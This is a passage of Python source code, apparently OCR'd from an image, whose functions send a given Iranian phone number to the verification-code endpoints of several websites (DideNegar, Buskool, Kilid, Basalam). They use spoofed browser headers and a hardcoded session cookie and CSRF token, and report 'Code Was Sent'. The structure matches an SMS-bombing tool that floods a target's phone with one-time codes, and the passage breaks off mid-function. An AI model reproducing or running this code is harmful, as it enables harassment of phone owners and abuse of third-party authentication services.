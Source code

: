 'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36',
'x-requested-with': 'XMLHttpRequest'}
    try:
        ok = post(timeout=5, url=paU, headers=paH, data=paD).json()
        if ok['code'] == '1':
            print(f'{g}(DideNegar) {w}Code Was Sent')
            return True
    except:
        pass
def baskol(phone):
    baJ = {
    "phone": '0'+phone.split('+98')[1]
}
    baU = 'https://www.buskool.com/send_verification_code'
    baH = {'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-type': 'application/json;charset=UTF-8',
'cookie': 'laravel_session=2Gp6A82VC8CPMgaB7sI0glrGP52XyjXNKnNAeZq3',
'origin': 'https://www.buskool.com',
'referer': 'https://www.buskool.com/register',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36',
'x-csrf-token': 'trUVHIRWtjE58Fn9Pud1ciz2XaTbTgFHgCLsPykD',
'x-requested-with': 'XMLHttpRequest'}
    try:
        ok = post(timeout=5, url=baU, headers=baH, json=baJ).json()
        if ok['status'] == True:
            print(f'{g}(Baskol) {w}Code Was Sent')
            return True
    except:
        pass
def kilid(phone):
    kiJ = {
    "mobile": '0'+phone.split('+98')[1]
}
    kiU = 'https://server.kilid.com/global_auth_api/v1.0/authenticate/login/realm/otp/start?realm=PORTAL'
    kiH = {'Accept': 'application/json, text/plain, */*',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'en-US,en;q=0.9',
'Connection': 'keep-alive',
'Content-Type': 'application/json',
'COUNTRY_ID': '2',
'Host': 'server.kilid.com',
'LOCALE': 'FA',
'Origin': 'https://kilid.com',
'Referer': 'https://kilid.com/',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 OPR/82.0.4227.23'}
    try:
        ok = post(timeout=5, url=kiU, headers=kiH, json=kiJ).json()
        if ok['status'] == 'SUCCESS':
            print(f'{g}(Kilid) {w}Code Was Sent')
            return True
    except:
        pass
def basalam(phone):
    baJ = {
    "variables": {
        "mobile": '0'+phone.split('+98')[1]
    },